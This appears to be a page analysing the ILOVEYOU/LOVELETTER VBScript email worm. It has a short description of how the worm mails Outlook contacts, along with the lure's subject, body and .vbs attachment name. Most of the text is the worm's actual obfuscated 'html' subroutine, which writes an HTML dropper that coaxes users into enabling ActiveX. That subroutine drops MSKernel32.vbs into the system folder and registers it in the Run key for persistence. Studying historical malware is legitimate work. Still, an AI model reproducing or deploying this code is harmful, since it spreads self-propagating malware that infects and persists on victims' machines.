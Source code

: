 This code has setup an tracking system to send emails to contacts in the user's address book through Microsoft Outlook. It keeps the track through a registry path <span style="color:lightgreen">HKEY_CURRENT_USER\Software\Microsoft\WAB\</span> and add the email to it, who have recieved emails. It frames a mail.

- Subject : ILOVEYOU
- Body : knidly check the attached LOVELETTER coming from me.
- Attactment : C:\Windows\System32\Love-LETTER-FOR-YOU.TXT.vbs

### html

```vbs
sub html
On Error Resume Next
dim lines,n,dta1,dta2,dt1,dt2,dt3,dt4,l1,dt5,dt6
dta1="<HTML><HEAD><TITLE>LOVELETTER - HTML<?-?TITLE><META NAME=@-@Generator@-@ CONTENT=@-@BAROK VBS - LOVELETTER@-@>"&vbcrlf& _
"<META NAME=@-@Author@-@ CONTENT=@-@spyder ?-? ispyder@mail.com ?-? @GRAMMERSoft Group ?-? Manila, Philippines ?-? March 2000@-@>"&vbcrlf& _
"<META NAME=@-@Description@-@ CONTENT=@-@simple but i think this is good...@-@>"&vbcrlf& _
"<?-?HEAD><BODY ONMOUSEOUT=@-@window.name=#-#main#-#;window.open(#-#LOVE-LETTER-FOR-YOU.HTM#-#,#-#main#-#)@-@ "&vbcrlf& _
"ONKEYDOWN=@-@window.name=#-#main#-#;window.open(#-#LOVE-LETTER-FOR-YOU.HTM#-#,#-#main#-#)@-@ BGPROPERTIES=@-@fixed@-@ BGCOLOR=@-@#FF9933@-@>"&vbcrlf& _
"<CENTER><p>This HTML file need ActiveX Control<?-?p><p>To Enable to read this HTML file<BR>- Please press #-#YES#-# button to Enable ActiveX<?-?p>"&vbcrlf& _
"<?-?CENTER><MARQUEE LOOP=@-@infinite@-@ BGCOLOR=@-@yellow@-@>----------z--------------------z----------<?-?MARQUEE> "&vbcrlf& _
"<?-?BODY><?-?HTML>"&vbcrlf& _
"<SCRIPT language=@-@JScript@-@>"&vbcrlf& _
"<!--?-??-?"&vbcrlf& _
"if (window.screen){var wi=screen.availWidth;var hi=screen.availHeight;window.moveTo(0,0);window.resizeTo(wi,hi);}"&vbcrlf& _
"?-??-?-->"&vbcrlf& _
"<?-?SCRIPT>"&vbcrlf& _
"<SCRIPT LANGUAGE=@-@VBScript@-@>"&vbcrlf& _
"<!--"&vbcrlf& _
"on error resume next"&vbcrlf& _
"dim fso,dirsystem,wri,code,code2,code3,code4,aw,regdit"&vbcrlf& _
"aw=1"&vbcrlf& _
"code="
dta2="set fso=CreateObject(@-@Scripting.FileSystemObject@-@)"&vbcrlf& _
"set dirsystem=fso.GetSpecialFolder(1)"&vbcrlf& _
"code2=replace(code,chr(91)&chr(45)&chr(91),chr(39))"&vbcrlf& _
"code3=replace(code2,chr(93)&chr(45)&chr(93),chr(34))"&vbcrlf& _
"code4=replace(code3,chr(37)&chr(45)&chr(37),chr(92))"&vbcrlf& _
"set wri=fso.CreateTextFile(dirsystem&@-@^-^MSKernel32.vbs@-@)"&vbcrlf& _
"wri.write code4"&vbcrlf& _
"wri.close"&vbcrlf& _
"if (fso.FileExists(dirsystem&@-@^-^MSKernel32.vbs@-@)) then"&vbcrlf& _
"if (err.number=424) then"&vbcrlf& _
"aw=0"&vbcrlf& _
"end if"&vbcrlf& _
"if (aw=1) then"&vbcrlf& _
"document.write @-@ERROR: can#-#t initialize ActiveX@-@"&vbcrlf& _
"window.close"&vbcrlf& _
"end if"&vbcrlf& _
"end if"&vbcrlf& _
"Set regedit = CreateObject(@-@WScript.Shell@-@)"&vbcrlf& _
"regedit.RegWrite @-@HKEY_LOCAL_MACHINE^-^Software^-^Microsoft^-^Windows^-^CurrentVersion^-^Run^-^MSKernel32@-@,dirsystem&@-@^-^MSKernel32.vbs@-@"&vbcrlf& _
"?-??-?-->"&vbcrlf& _
"<?-?SCRIPT>"
dt1=replace(dta1,chr(35)&chr(45)&chr(35),"'")
```